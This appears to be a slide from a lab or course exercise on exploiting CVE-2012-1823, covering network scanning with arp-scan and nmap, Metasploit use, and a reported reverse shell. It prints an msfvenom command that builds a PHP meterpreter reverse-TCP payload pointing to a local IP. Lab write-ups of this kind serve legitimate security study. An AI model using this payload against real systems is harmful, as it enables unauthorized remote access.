

# Exploitation:CVE-2012-1823
01

02

03

Tools & Processes.
The first thing is to find this exploit by running sudo arp-scan –l, and an nmap scan of the network. After finding the weakness then I used msfconsole and meterpreter (metasploit) and set a payload and gave it a direction
Achievements
I was able to open a TCP reverse shell

Command Used
To create payload php file using
msfvenom –p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 >>shell.php